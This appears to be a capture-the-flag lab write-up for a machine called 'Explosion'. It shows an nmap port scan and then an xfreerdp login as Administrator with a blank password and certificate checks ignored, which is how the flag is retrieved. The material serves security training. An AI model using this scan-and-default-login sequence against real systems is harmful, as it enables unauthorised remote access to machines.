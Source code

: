 # Explosion

# TL;DR

- Misconfigured RDP service on the target machine that allows us to connect to the target host using `xfreerdp` cli and login using a common username (`Adminstrator`) and no password. 

# Enumeration

- `ping 10.129.1.13` : to test if the server us up and running.
- We scan the host to determine running services:
```
nmap -p- -sV 10.129.1.13
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-29 21:32 PST
Nmap scan report for 10.129.1.13
Host is up (0.085s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.76 seconds
```
- From the output of the scan we find multiple ports open.
- After researching the services running on each port the one we find most intresting is `3389/tcp` that is used for Windows Remote Desktop and Remote assistance connection (RDP-Remote Desktop Protocol).

# Foothold

 - We try to connect to the target host using `xfreerdp` cli. We can install it with `sudo apt-get install freerdp2-x11` if it does not currently exist on the local host.
 - Whwn we run `xfreerdp /v:10.129.1.13` to connect to the host it throws an error. Since we did not provide a username in the command it take our local user as the default user.
 ```
 xfreerdp /v:10.129.1.13
[21:36:57:739] [857106:857107] [INFO][com.freerdp.client.x11] - No user name set. - Using login name: root
[21:36:58:257] [857106:857107] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[21:36:58:257] [857106:857107] [WARN][com.freerdp.crypto] - CN = Explosion
Domain:   
Password: 
[21:37:00:107] [857106:857107] [ERROR][com.freerdp.core] - transport_ssl_cb:freerdp_set_last_error_ex ERRCONNECT_PASSWORD_CERTAINLY_EXPIRED [0x0002000F]
[21:37:00:107] [857106:857107] [ERROR][com.freerdp.core.transport] - BIO_read returned an error: error:0A000438:SSL routines::tlsv1 alert internal error
 ```
 - We can try myriad of other default usernames. We try `Administrator` as the username and when prompted for a password we can just press `enter`. We are now connected to the remote host and are able to retrieve the flag file on the desktop.
 ```
 xfreerdp /v:10.129.1.13 /cert:ignore /u:Administrator
Password: 
[21:38:55:607] [857720:857721] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[21:38:55:607] [857720:857721] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[21:38:55:623] [857720:857721] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[21:38:55:624] [857720:857721] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
[21:38:56:485] [857720:857721] [INFO][com.freerdp.client.x11] - Logon Error Info LOGON_FAILED_OTHER [LOGON_MSG_SESSION_CONTINUE]
[21:39:14:080] [857720:857720] [ERROR][com.freerdp.core] - freerdp_abort_connect:freerdp_set_last_error_ex ERRCONNECT_CONNECT_CANCELLED [0x0002000B]
 ```
 \* the `/cert:ignore` flag in the command above specifies to the script that all security certificates usage should be ignored.